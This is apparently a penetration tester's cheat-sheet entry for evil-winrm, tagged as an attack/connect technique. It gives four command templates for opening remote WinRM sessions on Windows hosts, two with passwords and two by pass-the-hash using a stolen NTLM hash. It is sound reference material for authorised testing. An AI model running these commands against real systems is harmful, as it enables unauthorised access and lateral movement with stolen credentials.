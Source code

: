 # evil-winrm
% windows, remote, winrm, evilwinrm, 5985, 5986
#plateform/linux  #target/remote  #protocol/winrm #port/5985 #port/5986 #cat/ATTACK/CONNECT 

## local account with creds
```
evil-winrm -i <ip> -u <user> -p <password>
```
## domain account with creds
```
evil-winrm -i <ip> -u <user>@<domain> -p <password>
```

## local account pth
```
evil-winrm -i <ip>/<domain> -u <user> -H <hash>
```

## domain account pth
```
evil-winrm -i <ip> -u <user>@<domain> -H <hash>
```